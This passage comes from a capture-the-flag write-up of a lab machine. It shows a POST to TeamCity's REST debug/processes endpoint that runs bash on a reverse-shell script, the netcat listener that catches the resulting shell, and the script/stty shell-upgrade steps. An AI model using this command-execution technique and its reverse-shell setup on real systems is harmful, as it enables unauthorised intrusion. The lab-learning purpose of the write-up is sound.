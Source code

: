 I’ll run `bash`, with the `params` of `rev.sh`, and it hangs:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=bash&params=rev.sh' -H "Authorization: Bearer $TOKEN"

```

At my listening `nc` there is a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.13 50548
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
   Welcome to TeamCity Server Docker container
 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$

```

I’ll upgrade it with the [script / stty trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

tcuser@647a82f29ca0:~/bin$ script /dev/null -c bash
Script started, file is /dev/null
   Welcome to TeamCity Server Docker container
 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset 
reset: unknown terminal type unknown
Terminal type? screen
tcuser@647a82f29ca0:~/bin$

```

### Via Admin Panel

